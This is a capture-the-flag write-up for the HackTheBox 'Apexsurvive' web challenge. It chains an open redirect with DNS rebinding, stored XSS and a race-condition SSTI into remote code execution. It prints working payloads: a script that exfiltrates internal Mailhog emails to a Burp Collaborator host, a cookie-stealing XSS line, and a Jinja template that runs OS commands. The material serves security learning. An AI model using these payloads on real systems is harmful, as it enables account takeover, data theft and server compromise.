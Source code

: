 +++
title = 'HackTheBox Cyber Apocalypse 2024 Apexsurvive Writeup'
date = 2024-03-14T17:38:37+01:00
draft = false
+++

## First Steps
We analyze the code and notice the email page will only show emails addressed to *test@email.htb*.

![EmailCode](test-email.png)

We create a user with the email *test@email.htb* and confirm the registration by visiting the link from an email.

![Verify email 1](verify-email-1.png)

![Verify email 2](verify-email-2.png)

## DNS Rebinding to Activate an Internal User
Upon further code inspection, we found out that users who sign up with an email hosted at *apexsurvive.htb* will be marked as internal users.

![VerificationCode](apexsurvive-email.png)

There's an */external* API endpoint that can be used for an open redirect.

![Open redirect](open-redirect.png)

The emails are served by Mailhog running on port 9000 and can be internally retrieved by using the */api/v2/messages* endpoint.

![Mailhog port](mailhog-port.png)

We create a user *asdf@apexsurvive.htb*.

![Apex register](apex-register.png)

We log in and request a verification email. It won't appear in emails on the website.

![Apex verify](apex-verify.png)

We'll use the /external endpoint for an open redirect to our controlled website and then do DNS rebinding to fetch emails from Mailhog running on port 9000 and get the confirmation email for the internal user. To do this, we'll set up an EC2 instance with a public IP address and then add a DNS NS record for it (keep in mind the dot at the end):

![DNS config](dns-config.png)Upon further code inspection, we found out that users who sign up with an email hosted at apexsur

We have to allow incoming traffic from ports UDP 53 (for DNS) and TCP 9000 (for the HTTP server) at minimum. We configure the security group of our EC2 instance as following.

![Security group configuration](security-group.png)

On the instance, we'll run https://github.com/mogwailabs/DNSrebinder to change the resolution of my domain from EC2 public IP address to 127.0.0.1 after a moment:

    sudo python3 dnsrebinder.py --domain dynamic.mywebsite.xyz. --rebind 127.0.0.1 --ip <website-public-ip> --counter 1 --udp --ttl 1

We'll also run an HTTP server on it serving index.html that keeps fetching /api/v2/messages for Mailhog emails and then sends them back to us. **Remember it has to be on the same origin (port 9000).**

    sudo python3 -m http.server 9000

*index.html* served by the HTTP server:

    <html>
    <body>
    <script>
        (function () {
            var axhr = new XMLHttpRequest();
            axhr.open('GET', 'http://myburpcollab.oastify.com?start=start');
            axhr.send()
            var interval = setInterval(function () {
                var xhr = new XMLHttpRequest();
                xhr.open('GET', 'http://dynamic.mywebsite.xyz:9000/api/v2/messages', false);
                xhr.onload = function () {
                    if (xhr.status != 200) { return; }
                    var xhr2 = new XMLHttpRequest();
                    xhr2.open('GET', `http://myburpcollab.oastify.com?msgs=${btoa(this.responseText)}`);
                    xhr2.send();
                };
                xhr.send()
            }, 200)
        })();
    </script>
    </body>
    </html>

The script keeps fetching *http://dynamic.mywebsite.xyz:9000/api/v2/messages* in short intervals. which is on the same origin. After a while our DNS rebinder should switch from the EC2 IP address to localhost. Then, the script will successfully fetch the emails and send them back to us in base64.

We log in as *test@email.htb* and report:

    ../external?url=http://dynamic.mywebsite.xyz:9000/

We notice how after a short moment our DNS server starts resolving our domain to 127.0.0.1 instead of our public API.

![DNS rebind](dns-rebind.png)

It might take about 1 minute before the domain resolution is updated to 127.0.0.1. The first callback after the one with query parameter *start=start* one contains base64 encoded emails from Mailhog API. We decode them and get the confirmation link for the internal user.

![Exfiltrated emails](exfiltrated-emails.png)
![Base64 emails](base64-emails.png)

## Stored XSS to Steal the Session Cookie From the Admin
As an internal user, we now can add products. In */application/templates/product.html* we notice that the *product.note* (Product manual) from an input controlled by us is not sanitized and allows us to escape JS backticks.

![Product note JS string escape](product-note.png)

We add any new product and in the product manual we put in:

    `;fetch("https://myburpcollab.oastify.com/xss?c="+document.cookie);let x=`

![Add product](add-product.png)

We double-check we escaped JS backticks after adding the product:

![JS backtick escape](js-backtick-escape.png)

After we create it, we make the admin visit it by reporting its assigned product number. We take the admin session cookie from the callback.

![Admin session XSS](admin-session-xss.png)

## Leveraging a Race Condition for SSTI Leading to RCE
As an admin, we now can add PDF contracts. We notice that:
- the file is always saved to the same location before checking it’s a PDF,
- we can save the file anywhere by path traversal using “..” in the filename,
- the PDF check takes the temporary file from the file system, not directly from the request.

![Race condition in PDF upload](pdf-upload-race-condition.png)

As a result, **there’s a race condition between saving the temp file and checking that it’s a PDF.**

We prepare 2 files:
1) a small PDF,
2) a Jinja template that’ll read out the flag:

        Result {{ self.__init__.__globals__.__builtins__.__import__('os').system('/readflag > /app/application/static/images/flag.txt') }}

We upload both and add them to a burp repeater group like so:

![Burp parallel requests setup 1](burp-parallel-1.png)
![Burp parallel requests setup 2](burp-parallel-2.png)

We try sending them multiple times using “Send group (parallel)”. We can play around with the number of PDF/Jinja template requests in the group. We watch out for *message: Contract added* in a response to a Jinja template upload. We check for it by refreshing any product page multiple times. If we see our payload, the flag is available under */static/images/flag.txt*.

![Result 0](result-0.png)
![Apex flag](apex-flag.png)

## References
- https://unit42.paloaltonetworks.com/dns-rebinding/
- https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/
- https://portswigger.net/research/smashing-the-state-machine